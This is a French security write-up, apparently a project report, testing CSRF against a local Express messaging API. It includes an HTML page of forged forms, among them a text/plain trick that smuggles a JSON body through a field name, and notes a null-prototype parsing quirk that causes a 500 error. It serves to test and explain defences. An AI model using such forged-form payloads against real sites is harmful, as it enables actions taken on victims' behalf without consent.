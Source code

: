 ## CSRF

Les attaques CSRF sont problématiques dans ce cas, car aucune protection n'est présente (token, CORS).
Cependant l'application utilise une API qui n'accepte que du JSON.
Cela complique largement le problème, car il est déjà impossible sur un navigateur moderne d'appeler de manière asynchrone une route qui ne définit pas de CORS.

La seule possibilité est l'attaque par un formulaire classique qui lui redirige le client sur l'API.

### Formulaire d'exemple

```html
<html>
    <body>
        <form method="POST" action="http://localhost:3000/message" enctype="application/json">
            <input type="number" name='to' value='1'/>
            <input type="text" name='subject' value="CRSF PWNED" />
            <input type="text" name='message' value='HAHAH' />
            <input type="submit" />
        </form>
        <form method="POST" action="http://localhost:3000/message">
            <input type="number" name='to' value='1' />
            <input type="text" name='subject' value="CRSF PWNED" />
            <input type="text" name='message' value='HAHAH' />
            <input type="submit" />
        </form>
        <form method="POST" action="http://localhost:3000/message" enctype="text/plain">
            <input type="text" name='{"to":1,"subject":"CRSF PWNED", "message":"' value='HAHAH"}' />
            <input type="submit" />
        </form>
        <form method="POST" action="http://localhost:3000/message" enctype="application/json">
            <input type="text" name='{"to":1,"subject":"CRSF PWNED", "message":"' value='HAHAH"}' />
            <input type="submit" />
        </form>
    </body>
</html>
```

### Mitigation

Dans ce cas, expressjs semble sauvé la situation, car il est très strict sur la forme des données ce qui bloque ces états.

Par contre, dans le cas du premier formulaire qui n'est pas standard, mais qui fournit un JSON valide dans le cas de chrome (79.0.3945.79).
L'erreur qui survient est une mauvaise construction du parser d’expressjs qui fournit un objet null donc le prototype contient les champs envoyés.
Cela ne semble pas avoir d'impact, car impossible de créer du code exécutable, mais la seule barrière reste ces tests de validations :

```javascript
if (!req.body.hasOwnProperty('to') || !req.body.hasOwnProperty('subject') || !req.body.hasOwnProperty('message')) {
    res.sendStatus(400);
    return;
}
```

Dans ce cas, la fonction `hasOwnProperty` n'existe pas et crée une erreur `500`.
